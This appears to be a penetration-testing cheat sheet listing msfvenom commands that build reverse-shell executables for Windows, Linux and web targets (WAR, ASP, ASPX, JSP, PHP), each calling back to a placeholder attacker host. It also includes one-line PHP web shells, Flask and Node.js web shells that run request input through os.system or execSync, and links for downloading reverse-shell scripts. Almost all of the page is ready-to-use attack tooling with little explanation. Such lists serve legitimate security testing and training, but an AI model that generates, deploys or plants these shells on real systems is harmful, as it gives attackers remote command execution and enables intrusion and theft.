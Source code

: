 # Shell and Some Payloads
## Payload Structure - msfvenom
-> A staged payload is usually shipped in two parts. The first part contains a small primary payload that will establish a connection, transferring a larger secondary payload with the rest of the shellcode.  
-> e.g.  
```
windows/shell_reverse_tcp (stageless)
windows/shell/reverse_tcp (staged)
linux/shell_reverse_tcp (stageless)
linux/shell/reverse_tcp (staged)
```

## Non-Meterpreter Binaries
### Windows
#### .exe x86 staged - msfvenom (Non-Meterpreter)
```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```

#### .exe x64 staged - msfvenom (Non-Meterpreter)
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

#### .exe x86 stageless - msfvenom (Non-Meterpreter)
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```

#### .exe x64 stageless - msfvenom (Non-Meterpreter)
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

### Linux
#### .elf x86 staged - msfvenom (Non-Meterpreter)
```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
```

#### .elf x64 staged - msfvenom (Non-Meterpreter)

```
msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

#### .elf x86 stageless - msfvenom (Non-Meterpreter)

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
```

#### .elf x64 stageless - msfvenom (Non-Meterpreter)
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Web Payloads
### Java WAR - msfvenom (Non-Meterpreter)
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

### ASP - msfvenom (Non-Meterpreter)
```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
```

### ASPX
```
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<LPORT> -f aspx > shell.aspx
```

### JSP - msfvenom (Non-Meterpreter)
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

### WAR - msfvenom (Non-Meterpreter)
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

### PHP - msfvenom (Non-Meterpreter)
```
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```
or  
-> Find and edit
```
locate php-reverse-shell
```
or  
https://raw.githubusercontent.com/Dhayalanb/windows-php-reverse-shell/master/Reverse%20Shell.php

## Web Shells
### PHP 
```
<?php echo shell_exec($_GET['cmd']);?>
<?php system($_GET['cmd']);?>
<?php echo exec($_GET['cmd']);?>
```

### JSP
-> Find and edit
```
locate cmdjsp.jsp
```

### ASP
```
locate cmd-asp-5.1.asp
locate cmdasp.asp
```

### ASPX
```
locate cmdasp.aspx
```

### Webshell Infecting views.py - Python (Flask)
```
import os
from flask import Flask,request,os

app = Flask(__name__)
   
@app.route('/okay')
def cmd():
    return os.system(request.args.get('c'))

if __name__ == "__main__":
	app.run()
```
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/webshells/views.py

### nodejs
```
const express = require('express')
const app = express();

app.listen(3000, () => 
	console.log('...')
);
function Exec(command){ 
	const { execSync } = require("child_process");
	const stdout = execSync(command);
	return "Result: "+stdout
}
app.get('/okay/:command', (req, res) => 
res.send(Exec(req.params.command))
);
```
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/webshells/views.js


### Perl
-> Find and edit
```
locate perl-reverse-shell.pl
```

#### (=) revshell generator + urlencoder
-> revshells
https://www.revshells.com/

-> urlencoder  
https://www.urlencoder.org/
